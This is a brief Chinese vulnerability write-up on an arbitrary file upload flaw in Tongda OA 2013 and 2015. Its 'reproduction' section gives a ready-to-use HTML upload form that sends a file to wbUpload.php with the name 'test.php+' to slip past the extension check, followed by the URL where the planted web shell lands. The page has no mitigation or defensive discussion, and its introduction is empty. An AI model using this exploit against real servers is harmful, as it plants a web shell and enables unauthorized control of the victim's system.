 ```yaml
---
title: "通达oa 任意⽂件上传漏洞"
id: zhfly3341
---
```


# 通达oa 任意⽂件上传漏洞

## 一、漏洞简介

## 二、漏洞影响

2013、2015版本

## 三、复现过程

EXP:

```
<form enctype="multipart/form-data" action="http://0-sec.org/general/vmeet/wbUpload.php
?fileName=test.php+" method="post">
<input type="file" name="Filedata" size="50"><br>
<input type="submit" value="Upload">
</form> 
```

上传jpg之后shell地址为

```
http://0-sec.org/general/vmeet/wbUpload/test.php 
```